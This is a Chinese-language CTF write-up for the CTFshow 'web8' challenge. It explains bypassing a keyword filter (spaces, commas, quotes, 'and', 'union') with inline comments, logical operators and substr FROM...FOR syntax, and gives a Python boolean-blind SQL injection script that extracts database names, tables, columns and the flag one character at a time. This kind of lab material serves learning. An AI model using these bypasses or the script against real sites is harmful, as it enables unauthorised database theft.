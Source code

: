 ```yaml
---
title: CTFshow WEB 刷题记录
date: 2024-08-30 00:00:00 +0800
categories: [刷题记录, ]
tags: [web]
---
```


[TOC]



# CTFshow

------

## web8

------

仅有三个地方可点，都点进去看看。从URL处可以看到前端是传了一个参数id给后端。

经过一次次测试，总结了如下的过滤列表。

空格
and
逗号
单引号
union

空格可以内联注释来绕过，即 /**/。

and就可以使用or，或者 || ，或者 &&。

过滤逗号, 可以使用特殊语法绕过, 比如:substr(database(),1,1) 可以用substr(database() from 1 for 1)来代替。

像是单引号被过滤的话，在字符型注入中基本是没戏了，还好这次的是数字型的注入。

而union就可以用 || 或者&&。

```python
import requests

url = 'http://7d646b24-dd1b-4d36-b8a3-7808d462814c.challenge.ctf.show/index.php?id=-1/**/or/**/'
name = ''

# 循环45次( 循环次数按照返回的字符串长度自定义)
for i in range(1, 45):
    # 获取当前使用的数据库
    #payload = 'ascii(substr(database()from/**/%d/**/for/**/1))=%d'
    # 获取当前数据库的所有表
    #payload = 'ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database())from/**/%d/**/for/**/1))=%d'
    # 获取flag表的字段
    #payload = 'ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666C6167)from/**/%d/**/for/**/1))=%d'
    # 获取flag表的数据
    payload = 'ascii(substr((select/**/flag/**/from/**/flag)from/**/%d/**/for/**/1))=%d'
    count = 0
    print('正在获取第 %d 个字符' % i)
    # 截取SQL查询结果的每个字符, 并判断字符内容
    for j in range(31, 128):
        result = requests.get(url + payload % (i, j))

        if 'If' in result.text:
            name += chr(j)
            print('数据库名/表名/字段名/数据: %s' % name)
```